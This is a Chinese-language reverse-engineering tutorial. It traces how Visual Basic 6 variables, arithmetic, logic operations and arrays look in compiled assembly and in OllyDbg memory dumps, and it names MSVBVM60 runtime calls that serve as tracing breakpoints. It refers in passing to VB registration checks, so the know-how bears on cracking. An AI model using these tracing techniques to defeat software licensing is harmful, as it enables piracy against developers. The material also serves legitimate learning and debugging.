以上代码被编译为如下的汇编代码。

```asm
36 : Private Sub Command1_Click()
push ebp
mov ebp, esp
sub esp, 12 ; 0000000Ch
push OFFSET FLAT:___vbaExceptHandler
mov eax, DWORD PTR fs:__except_list
push eax
mov DWORD PTR fs:__except_list, esp
sub esp, 80 ; 00000050H
push ebx
push esi
push edi
...
call DWORD PTR [ecx+4]
xor edi, edi
```

看看，为了开展工作，做了不少的准备呢。实际上变量已经定义好了。在哪？我也没有看出来。

```asm
37: Dim b1, b2, b3 As Long
38:
39: b1 = 12345678
```

再看下面的第一次赋值过程。

```asm
lea edx, DWORD PTR _unnamed_var1$[ebp]
mov DWORD PTR _unnamed_var1$[ebp], edi
lea ecx, DWORD PTR _b1$[ebp]
mov DWORD PTR _b1$[ebp], edi
mov DWORD PTR _b2$[ebp], edi
...
mov DWORD PTR _unnamed_var1$[ebp+8], 12345678 ; 00bc614eH
mov DWORD PTR _unnamed_var1$[ebp], 3
call DWORD PTR __imp_@__vbaVarMove
```

赋值之后干了什么，看出来了吗？  
40: b2 = b1  
下面是变量之间的传递过程。

```asm
lea edx, DWORD PTR _b1$[ebp]
lea ecx, DWORD PTR _b2$[ebp]
call DWORD PTR __imp_@__vbaVarCopy
```

看出来采用了什么方法了吗？  
41: b3 = b2  
下面是第二次变量之间的传递过程。

```asm
lea edx, DWORD PTR _b2$[ebp]
push edx
call DWORD PTR __imp_...vbaI4Var
mov ebx, eax
```

###### 怎么实现的？

42: Text1 = b3  
再看看整数怎么被转换成字符了，谁最值得怀疑？

```asm
mov eax, DWORD PTR [esi]
push esi
call DWORD PTR [eax+764]
...
call DWORD PTR __imp_@__vbaStrI4
...
call DWORD PTR [edx+164]
...
43: End Sub
```

上面就是经过编译，但还没有来得及链接的原始代码。如果需要，可以使用OD找到它。例如：00401BD7: MOV DWORD PTR SS:[EBP-48],0BC614E。  
不过，将前后的代码比较一下，你会看到已经发生了变异，因为这是链接之后的代码。完整地将上述的代码复制出来，并进行如下比较。

```asm
00401B80  PUSH EBP
00401B81  MOV EBP, ESP
00401B83  SUB ESP, 0C
00401B86  PUSH <...vbaExceptHandler>
00401B8B  MOV EAX, DWORD PTR FS:[0]
00401B91  PUSH EAX
00401B92  MOV DWORD PTR FS:[0], ESP
00401B99  SUB ESP, 50
00401B9C  PUSH EBX
00401B9D  PUSH ESI
00401B9E  PUSH EDI
00401B9F  MOV DWORD PTR SS:[EBP-4],ESP
00401BA2  MOV DWORD PTR SS:[EBP-8], ...
...
00401BD7  MOV DWORD PTR SS:[EBP-48],0BC614E
00401BDE  MOV DWORD PTR SS:[EBP-50],3
00401BE5  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarMove>]
```

赋值之后，做了这项工作。记住这个函数名，它可是VB跟踪的重要断点（听我后面的解释）。

```asm
00401BEB  LEA EDX,DWORD PTR SS:[EBP-24]
00401BF0  LEA ECX,DWORD PTR SS:[EBP-34]
00401BF1  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarCopy>]
```

玩了一点新玩意，换了一个函数作传递，将b1的值传递给了b2。见到常数12345678了吗？

```asm
00401BF7  LEA EDX,DWORD PTR SS:[EBP-34]
00401BFA  PUSH EDX
00401BFB  CALL DWORD PTR DS:[<&MSVBVM60.__vbaI4Var>]
```

b2又传递给b3了，见到常数12345678了吗？

```asm
00401C01  MOV EBX,EAX
00401C03  MOV EAX,DWORD PTR DS:[ESI]
00401C05  PUSH ESI
00401C06  CALL DWORD PTR DS:[EAX+2FC]
...
00401C11  CALL DWORD PTR DS:[<&MSVBVM60.__vbaObjSet>]
00401C17  MOV ESI,EAX
```

```asm
00401C1A  MOV EDX,DWORD PTR DS:[ESI]
00401C1C  MOV DWORD PTR SS:[EBP-64],EDX
00401C1F  CALL DWORD PTR DS:[<&MSVBVM60.__vbaStrI4>]
```

将整数转换成字符。见到常数12345678了吗？

```asm
00401C25  MOV EDX,EAX
00401C27  LEA ECX,DWORD PTR SS:[EBP-3C]
00401C2A  CALL DWORD PTR DS:[<&MSVBVM60.__vbaStrMove>]
```

完成转换之后又作了这个动作。见到字符串“12345678”了吗？

```asm
00401C30  MOV EDX,DWORD PTR SS:[EBP-64]
00401C33  PUSH EAX
00401C34  PUSH ESI
00401C35  CALL DWORD PTR DS:[EBX+A4]
...
00401C53  LEA ECX,DWORD PTR SS:[EBP-3C]
00401C56  CALL DWORD PTR DS:[<&MSVBVM60.__vbaFreeStr>]
...
00401C78  LEA ECX,DWORD PTR SS:[EBP-40]
00401C7B  CALL DWORD PTR DS:[<&MSVBVM60.__vbaFreeObj>]
00401C81  RETN
```

要深刻理解VB的操作步骤、操作目标和操作形式，我们需要作仔细跟踪才能明白其中的道理。现在实际跟踪一下，先在“00401BD7 MOV DWORD PTR SS:[EBP-48],0BC614E”处下一个断点，当执行完上面的命令后，数据保存在“0012F4C0 4E 61 BC 00”处。那么0012F4C0处就是b1吗？回答是No，这只不过算作是一个缓存，真正将常数12345678赋值给变量的是下面的语句：

```asm
00401BDC  MOV DWORD PTR SS:[EBP-50],3
00401BE5  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarMove>]
MSVBVM60.__vbaVarMove
```

地址 / Hex 存储（内存转储）  
图3

何以见得？我们可以跟入看看。跟入前根据 EBP-50=0012F508-50=0012F4B8 这个粗略定位，将这一部分的内存内容复制出来参考，如图1所示。再看执行完“00401BDE MOV DWORD PTR SS:[EBP-50],3”后的效果，如图2所示。再执行下一命令时采用F7（步入）的方法可来到下面的代码处。

地址 / Hex 存储（图1）  
图1

地址 / Hex 存储（图2）  
图2

```asm
734998ED  MOV EDX,DWORD PTR DS:[EDI+4]
734998F0  MOV ECX,DWORD PTR DS:[EDI+C]
734998F3  MOV DWORD PTR DS:[ESI],EAX
734998F5  MOV EAX,DWORD PTR DS:[EDI+8]
734998F8  MOV DWORD PTR DS:[ESI+8],EAX
734998FB  MOV DWORD PTR DS:[EDI],0
73499901  MOV DWORD PTR DS:[ESI+4],EDX
73499904  MOV DWORD PTR DS:[ESI+C],ECX
```

这部分代码就在MSVBVM60（库函数）中。这时可以看到，EDI=0012F4B8，也就是指向3的位置（见图2）。所以EDI+4=0012F4BC，指向970108BF。EDI+8=0012F4C0，指向00BC614E，也就是12345678。EDI+C=0012F4C4，指向0。而之前已经将EDI=0012F4B8处的内容读了出来，这个数据的格式为WORD，并保存在EAX中。另外，ESI=0012F4E4。

现在我们分析一下，函数依次读取[EDI]、[EDI+4]、[EDI+8]和[EDI+C]，并分别保存到[ESI]、[ESI+4]、[ESI+8]和[ESI+C]，并且还将[EDI]清0。这就是基本的操作，这个“变量移动”函数所作的工作不仅仅是移动了我们的数据，还作了一些“不该做的”事情。还是看看结果吧，如图3所示。从图中可以看到开始存入的3没有了，在0012F4E4处出现了新的3，0012F4EC处保存的就是我们的数据。同时也可以看到，这里的数据是按照如下的结构模式进行组织的。

```vb
Type
  Flag1 As Integer
  Flag2 As Integer
  Data1 As Long
  Data2 As Long
  Data3 As Long
End Type
```

变量的标志放在Flag1中，数据放在Data2中。而以后对数据进行操作，其指针指向的是Flag1，自然也就看不到数据了。而没有了这个标志，VB就会认为这个变量不存在了。我们糊涂，但VB明白。

有人说，你这恐怕是凭空猜测吧？呵呵，有点儿。VB开发平台不是我开发的，我只能够这么看了。这个我们先放下不讨论，看看后面的情况。

b2也是一个变量，执行b2=b1后，b2也应该为这样的结构才对。那就看看吧。

现在准备执行下列指令了：

```asm
00401BEB  LEA EDX,DWORD PTR SS:[EBP-24]
00401BEE  LEA ECX,DWORD PTR SS:[EBP-34]
00401BF1  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarCopy>]
MSVBVM60.__vbaVarCopy
```

到00401BF1时，EDX=0012F4E4，ECX=0012F4D4……不就是b1的结构吗？难道函数VarCopy要将0012F4E4中的内容复制给0012F4D4处？也就是说0012F4D4处就是b2？看看执行后的情况，如图4所示。看看两个对应的地方，是不是完全一样？

地址 / Hex 存储（图4）  
图4

所以我们可以得出结论：VB存储数据是按照结构方式保存的，通常我们见到的地址不是直接指向数据的地址，而是指向标志的地址。这就是VB中通常看不到数据的真正原因。要想看到这个数据，必须追入这个结构中才可以。

好像明白了点，可是又在犯糊涂。你绕了这么半天，到底想说明什么事？当然，面包会有的……说走嘴了！

我要说的是，VB在运行中不一定存在加、减、乘、除运算，但一定存在给变量赋值或变量转移的问题。虽然我们不能看到结果怎样被转移，但VB却给出了明确的标志MSVBVM60.__vbaVarMove或MSVBVM60.__vbaVarCopy。它就是我在跟踪VB编写的软件时的常用断点。并且，使用了函数MSVBVM60.__vbaVarMove之后，后面会跟随着出现变量所在地址，如“00401BEB LEA EDX,DWORD PTR SS:[EBP-24]”处。如果你很关心这个数据，要看看也就不是难事了。

这个例子的关键词：变量结构，断点选择。

###### [例2] 算术与逻辑运算

对于用VB编写的软件，其注册验证因受数据类型的限制，要么都比较容易，要么跟踪就很困难。因为作为算术运算，VB都试图进行“高保真”，也就是计算结果都是正确的（这点与其它编程平台的计算是不同的），如果数的范围超过VB的约定，不是进行溢出丢失处理，而是直接报警，拒绝继续往后执行。而且逻辑运算对数据结构的要求更高，只能在正数的范围内进行。所以VB不能自由地进行数据计算，从而限制了难度。

那为什么又说要么很难呢？因为作者如果要增加计算的难度，必然要编制超过范围的数据计算的模块，这个模块内的事情就不好说了。仅就两个较大的整数相加，其算法你也未必能够看得明白（耗时费力啊！）。

下面我们来设置三个变量，其结构为Integer（为的是不至于出问题），并进行加、减、除算术运算（乘法容易超范围）和与、或、异或逻辑运算，代码如下。

```vb
Private Sub Command1_Click()
    Dim b1,b2,b3 As Integer
    b1 = 12345
    b2 = 56789
    b3 = b2 + b1
    b3 = b3 - b1
    b3 = b3 \ b1

    b3 = b1 And b2
    b3 = b1 Or b2
    b3 = b1 Xor b2
End Sub
```

很简单吧？看看编译后的代码。

```asm
00401BA9  MOV DWORD PTR SS:[EBP-50],3039
; 常数12345
00401BB0  MOV DWORD PTR SS:[EBP-58],2
; 标志
00401BB7  CALL ESI
;<&MSVBVM60.__vbaVarMove>
```

注意这个函数名，以后相同。

```asm
00401BB9  LEA EDX,DWORD PTR SS:[EBP-58]
00401BBC  LEA ECX,DWORD PTR SS:[EBP-34]
00401BBF  MOV DWORD PTR SS:[EBP-50],0DDD5
; 常数56789
00401BC6  MOV DWORD PTR SS:[EBP-58],3
; 标志
00401BCD  CALL ESI
```

同上。但这里要注意一个问题，b1的标志为2，b2的标志为3，这个标志好像与上例中的标志相同。

```asm
00401BCF  LEA EAX,DWORD PTR SS:[EBP-34]
00401BD2  LEA ECX,DWORD PTR SS:[EBP-24]
00401BD5  PUSH EAX
00401BD6  LEA EDX,DWORD PTR SS:[EBP-48]
00401BD9  PUSH ECX
00401BDA  PUSH EDX
00401BDB  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarAdd>]
; MSVBVM60.__vbaVarAdd
```

以上代码进行变量相加。

```asm
00401BE1  MOV ESI,DWORD PTR DS:[<&MSVBVM60.__vbaI2Var>]
; MSVBVM60.__vbaI2Var
00401BE7  PUSH EAX
00401BE8  CALL ESI
;<&MSVBVM60.__vbaI2Var>
```

结果返回给变量b3，以下同。

```asm
00401BEA  LEA ECX,DWORD PTR SS:[EBP-48]
00401BED  MOV EBX,EAX
00401BEF  CALL DWORD PTR DS:[<&MSVBVM60.__vbaFreeVar>]
; MSVBVM60.__vbaFreeVar
00401BF5  LEA EAX,DWORD PTR SS:[EBP-58]
00401BF8  LEA ECX,DWORD PTR SS:[EBP-24]
00401BFB  MOV WORD PTR SS:[EBP-50],BX
00401BFF  PUSH EAX
00401C00  LEA EDX,DWORD PTR SS:[EBP-48]
00401C03  MOV EBX,2
00401C08  PUSH ECX
00401C09  PUSH EDX
00401C0A  MOV DWORD PTR SS:[EBP-58],EBX
00401C0D  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarSub>]
; MSVBVM60.__vbaVarSub
```

以上代码进行变量相减运算。

```asm
00401C13  PUSH EAX
00401C14  CALL ESI
```

结果返回给b3。

```asm
00401C16  MOV WORD PTR SS:[EBP-50],AX
00401C1A  LEA EAX,DWORD PTR SS:[EBP-58]
00401C1D  LEA ECX,DWORD PTR SS:[EBP-24]
```

```asm
00401C20  PUSH EAX
00401C21  LEA EDX, DWORD PTR SS:[EBP-48]
00401C24  PUSH ECX
00401C25  PUSH EDX
00401C26  MOV DWORD PTR SS:[EBP-58], EBX
00401C29  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarIdiv>]
```

以上代码进行变量相除运算。

```asm
00401C2F  PUSH EAX
00401C30  CALL ESI
```

结果返回给 b3。

```asm
00401C32  LEA EAX, DWORD PTR SS:[EBP-24]
00401C35  LEA ECX, DWORD PTR SS:[EBP-34]
00401C38  PUSH EAX
00401C39  LEA EDX, DWORD PTR SS:[EBP-48]
00401C3C  PUSH ECX
00401C3D  PUSH EDX
00401C3E  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarAnd>]
```

以上代码进行变量 and 运算。

```asm
00401C44  PUSH EAX
00401C45  CALL ESI
```

结果返回给 b3。

```asm
00401C47  LEA EAX, DWORD PTR SS:[EBP-24]
00401C4A  LEA ECX, DWORD PTR SS:[EBP-34]
00401C4D  PUSH EAX
00401C4E  LEA EDX, DWORD PTR SS:[EBP-48]
00401C51  PUSH ECX
00401C52  PUSH EDX
00401C53  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarOr>]
```

以上代码进行变量 or 运算。

```asm
00401C59  PUSH EAX
00401C5A  CALL ESI
```

结果返回给 b3。

```asm
00401C5C  LEA EAX, DWORD PTR SS:[EBP-24]
00401C5F  LEA ECX, DWORD PTR SS:[EBP-34]
00401C62  PUSH EAX
00401C63  LEA EDX, DWORD PTR SS:[EBP-48]
00401C66  PUSH ECX
00401C67  PUSH EDX
00401C68  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarXor>]
```

以上代码进行变量 xor 运算。

```asm
00401C6E  PUSH EAX
00401C6F  CALL ESI
```

结果返回给 b3。

```asm
00401C71  MOV DWORD PTR SS:[EBP-4], EDI
00401C74  PUSH 范例2_算.00401C96
00401C79  JMP SHORT 范例2_算.00401C85
```

现在我们来简要地归纳一下。

- 1. 上面的每一步运算前，都有“PUSH ECX”和“PUSH EDX”的动作，ECX 和 EDX 中的内容是什么？
- 2. 为什么 b1 和 b2 的标志不一样？
- 3. 这段代码能正常运行吗？

第三个问题很容易回答，在 VB 环境下调试可知，不能运行。原因很简单，Integer 类型的数据中最大的正整数为 32767，而此时 b2=56789，明显大于 32767，计算时肯定会有溢出报警。故可将 56789 修改为 5678，再加以观察。同时，后面的逻辑运算都不能进行，原因相同。

第二个问题中，因为 56789 已经超过了 Integer 的范围，所以 b2 当作 Long 型数据来保存了。修改数据后再看代码。

```asm
00401B97  MOV EBX,2
00401B9C  MOV DWORD PTR SS:[EBP-58], EDI
00401B9F  LEA EDX, DWORD PTR SS:[EBP-58]
00401BA2  LEA ECX, DWORD PTR SS:[EBP-24]
00401BA5  MOV DWORD PTR SS:[EBP-24], EDI
00401BA8  MOV DWORD PTR SS:[EBP-34], EDI
00401BAB  MOV DWORD PTR SS:[EBP-48], EDI
00401BAE  MOV DWORD PTR SS:[EBP-50], 3039
00401BB5  MOV DWORD PTR SS:[EBP-58], EBX
00401BB8  CALL ESI
00401BBA  LEA EDX, DWORD PTR SS:[EBP-58]
00401BBD  LEA ECX, DWORD PTR SS:[EBP-34]
00401BC0  MOV DWORD PTR SS:[EBP-50], 162E
00401BC7  MOV DWORD PTR SS:[EBP-58], EBX
00401BCA  CALL ESI
```

看来，VB 还是蛮细心的。第一个问题不好直接回答，那就跟踪一下。当给变量 b1、b2 赋值之后，b1、b2 的地址分别为：

```text
b1 --> 0012F4E4
b2 --> 0012F4D4
```

结论：变量在内存中的安排方法是按照从右到左的顺序进行的，即按照先定义的后安排、后定义的先安排的模式进行，所以后定义的地址较小。

当给变量赋值之后，我们注意一下 ECX 和 EDX 中装的是什么。

作加法时，ECX=0012F4E4，b1 的地址；EDX=0012F4C0（猜想为 b3 的地址）；EAX=0012F4D4，b2 的地址（已入栈）。实验说明 0012F4C0 确实是 b3 的地址。所以函数的参数就是 (b2,b1,b3)。有了这样的分析，你还愁 VB 的代码看不懂吗？

我想，其余的就不用再分析了吧！本例要掌握的关键词：参与运算的数据在哪里，数据格式标志，常见算术逻辑运算函数识别。

暗示：你可曾注意到 MSVBVM60.__vbaI4Var 与 MSVBVM60.__vbaI2Var 有何不同？我的理解，4-2 是指的数据在内存中的长度，4 字节或 2 字节。

结论：VB 程序在进行算术或逻辑运算时，传递给库函数的参数不是直接数，也不是数据的指针，而是结构的指针。故而，大多数情况下不能直接观察到运算前后的数据，但可以追索到结果的存放位置。

###### [例3] 数组与数组重定义

定义数组与重新定义数组是编程人员经常做的事情，怎么识别呢？看源代码。

```vb
Private Sub Command1_Click()
    Dim b2(), b1(4) As Integer

    b1(0)=5: b1(1)=4: b1(2)=3: b1(3)=2: b1(4)=1
    ReDim b2(4)
    b2(0)=1234
End Sub
```

我事先定义了 5 个元素的数组 b1，再给它们赋值；然后将数组 b2 扩充至 5 个元素。为便于跟踪，仅对第一个元素赋值。编译后的有关代码如下。

```asm
00401AAF  PUSH EAX
00401AB0  MOV DWORD PTR SS:[EBP-34], EDI
00401AB3  MOV DWORD PTR SS:[EBP-44], EDI
00401AB6  MOV DWORD PTR SS:[EBP-48], EDI
00401AB9  CALL DWORD PTR DS:[<&MSVBVM60.__vbaAryConstruct2>]
```

函数 vbaAryConstruct2 告诉我们定义了一个数组结构。为什么不是数组，而是数组结构？看看图 5 就会明白了吧？

| 地址     | Hex 转存              |
|----------|-----------------------|
| 0012F4BC | 28 0F 01 3F ...       |
| 0012F4CC | ...                   |
| 0012F4DC | ...                   |
| 0012F4EC | ...                   |

图5

注意几个地方：0012F4E0 处，Integer 数据类型标志；0012F4EC，数组长度标志。0012F4DC 处表示什么不清楚。0012F4E8 处是关键，它就是存放数组元素的地方。执行完函数之后的代码如下。

```asm
00401ABF  MOV ECX, DWORD PTR SS:[EBP-20]
; 数组指针
```

```asm
00401AC2  PUSH EDI
00401AC3  PUSH 4
00401AC5  PUSH 1
00401AC7  MOV WORD PTR DS:[ECX],5
...
00401AF5  MOV WORD PTR DS:[EDX+8],1
```

| 地址     | Hex 转存                            |
|----------|-------------------------------------|
| 00150818 | 05 00 04 00 03 00 02 00 01 00 ...   |

图6

跟入 00150818 看看，如图 6 所示，可谓是一目了然。接下来的这个函数好眼熟，哦，重新定义数组。

```asm
00401AFB  CALL DWORD PTR DS:[<&MSVBVM60.__vbaRedim>]
00401B01  MOV ECX, DWORD PTR SS:[EBP-34]
00401B04  ADD ESP, 0C
00401B07  CMP ECX, EDI
00401B09  MOV DWORD PTR SS:[EBP-3C],4D2
```

这里怎么不像上面那样给数组赋值，重定义都干了些什么？任何编译平台可能都有些烦心事，VB 也不例外。实际上，VB 将给数组赋值和重新定义数组两件事混合着办，搅乱了我们的视线。重新组织一下代码。

```asm
00401AC3  PUSH 4
00401AC5  PUSH 1
00401ACF  PUSH 0C
00401AE3  LEA EAX, DWORD PTR SS:[EBP-34]
00401AED  PUSH EAX
00401AEE  PUSH 10
00401AF0  PUSH 880
00401AFB  CALL DWORD PTR DS:[<&MSVBVM60.__vbaRedim>]
```

注意到只有 EAX 中存放的可能是地址，难道它就是数组的地址？执行函数 vbaRedim 后我们发现，[0012F4D4]=001528B8，来到 001528B8 处，等候后续代码的执行。当我们执行完毕后，情况没有像我们预想的那样，在 001528B8 处见到我们的数组元素，反而是通过后面代码：

```asm
00401B20  MOV ECX,DWORD PTR DS:[ECX+C]
00401B23  LEA EDX,DWORD PTR SS:[EBP-44]
00401B26  ADD ECX,EAX
00401B28  CALL DWORD PTR DS:[<&MSVBVM60.__vbaVarMove>]
; MSVBVM60.__vbaVarMove
```

完成数组的组建，结果如图 7 所示。这是一种结构型数据组织方式，与图 3 非常相似。

| 地址     | Hex.转存                                               |
|----------|--------------------------------------------------------|
| 001527C8 | 02 00 00 00 70 3E 68 00 D2 04 00 00 01 00 00 00        |

图7

如果全部赋值，情况又如何？修改代码（代码略）后看看内存状态，如图 8 所示。这回算是看清楚了，重新定义后的数组，其元素在内存中不是顺序存放的，而是按照结构来进行存放的。因为我安排的值分别是 1234、2234、3234、4234、5234，分别对应着 04D2、08BA、0CA2、108A、1472。呵呵，你到哪里去找数据啊！

| 地址     | Hex.转存                                               |
|----------|--------------------------------------------------------|
| 00152778 | 02 00 00 00 E8 30 68 00 D2 04 00 00 01 00 00 00        |
| 00152788 | 02 00 00 00 E8 30 68 00 BA 08 00 00 01 00 00 00        |
| 00152798 | 02 00 00 00 E8 30 68 00 A2 0C 00 00 01 00 00 00        |
| 001527A8 | 02 00 00 00 E8 30 68 00 8A 10 00 00 01 00 00 00        |
| 001527B8 | 02 00 00 00 E8 30 68 00 72 14 00 00 01 00 00 00        |

图8

问题：动态数组是如何组织的？为了解答这个问题，首先看看函数 vbaRedim 必需的参数：(0x880,0x10,EAX,0xC,1,4)。其中 4 与数组的大小有关，0xC 是结构的某个标志，EAX 部分是一个指针（不一定为 EAX），其余的我也说不清参数的意义。怎么去查看这个动态数组的结构呢？

第一步，跟踪 EAX。执行函数 vbaRedim 前（参数已传递），在转存中跟随 EAX。例如，现在 EAX=0012F4D4，则跟随后如图 9 所示。接着执行函数 vbaRedim，这个位置的结果变成了图 10 中的内容。

| 地址     | Hex.转存                                               |
|----------|--------------------------------------------------------|
| 0012F4D4 | 00 00 00 00 02 00 00 00 01 00 92 00 02 00 00 00        |
| 0012F4E4 | 00 00 00 00 28 29 15 00 05 00 00 00 00 00 00 00        |

图9

紧随着这个函数后面的语句是“00401B01 MOV ECX,DWORD PTR SS:[EBP-34]”，恰好要传递给 ECX 的参数就是 00150640，不会那么凑巧吧？好，跟随到 00150640，结果如图 11 所示。这里的一些数据是不是有些眼熟？对，就是执行函数前传递的部分参数。

| 地址     | Hex.转存                                               |
|----------|--------------------------------------------------------|
| 0012F4D4 | 40 06 15 00 02 00 00 00 01 00 92 00 02 00 00 00        |
| 0012F4E4 | 00 00 00 00 28 29 15 00 05 00 00 00 00 00 00 00        |

图10

| 地址     | Hex.转存                                               |
|----------|--------------------------------------------------------|
| 00150620 | 00 00 00 00 00 00 00 00 68 05 00 00 E4 07 18 00        |
| 00150630 | 00 00 00 00 00 00 00 00 00 00 00 00 0C 00 00 00        |
| 00150640 | 67 00 80 68 18 00 00 00 00 00 00 00 70 06 15 00        |

图11

而在这些参数的后面又有一个数据 00150670，所指的位置就在后面不远处。这个数据有用吗？看看数组被填充后的情况，如图 12 所示。这就是我们给数组赋值的结果。

| 地址     | Hex.转存                                               |
|----------|--------------------------------------------------------|
| 00150660 | 00 00 00 00 00 00 00 00 13 00 08 00 EC 07 18 00        |
| 00150670 | 02 00 00 00 70 4E 69 00 D2 04 00 00 01 00 00 00        |
| 00150680 | 02 00 00 00 70 4E 69 00 BA 08 00 00 01 00 00 00        |
| 00150690 | 02 00 00 00 70 4E 69 00 A2 0C 00 00 01 00 00 00        |
| 001506A0 | 02 00 00 00 70 4E 69 00 8A 10 00 00 01 00 00 00        |
| 001506B0 | 02 00 00 00 70 4E 69 00 72 14 00 00 01 00 00 00        |

图12

现在我们来理理头绪。重新定义数组时，EAX 给出的是一个指针1，这个指针1指向另一个指针2，指针2指向一个结构，这个结构中包含了真正的数组的指针。故指针1是一个指针的指针，指针2是结构的指针，结构中包含的指针指向动态数组。知道了这些，在 VB 中看不到数据你不冤枉。

因为没人告诉我们怎么去看 VB 中的数据。如果你还没有看明白，那就看看图 13 中的对应关系吧。如果还不明白，那就自己弄一个 VB 的东西跟踪看看，就容易学会了。


图13

结论：静态数组中的元素是顺序存放的，但数组的地址在一个结构中；动态数组采用了多级指针系统，数组中的数据不是顺序存放的，各自在一个结构中，而这个结构元素是顺序存放的。

##### 结束语

其实，VB 的东西跟踪不困难，因为 VB 的东西也就起着管理的作用，具体事务一般都是交给库函数来完成，操作比较显眼。寻找合适的断点比较关键，我就常用 VarMove 函数作断点。困难的是 VB 中数据的观察，没有一定的侦察能力（因为没有现成的教程）是不容易做到的。有时为了搞清楚参与计算的是哪些数据，不得不跟入库函数，但库函数中的标志也是很明显的，容易识别。对于这点，其它平台编译的东西以及 API 反倒不如它容易看得明白。好了，我该休息一下了，咱们回见吧。BD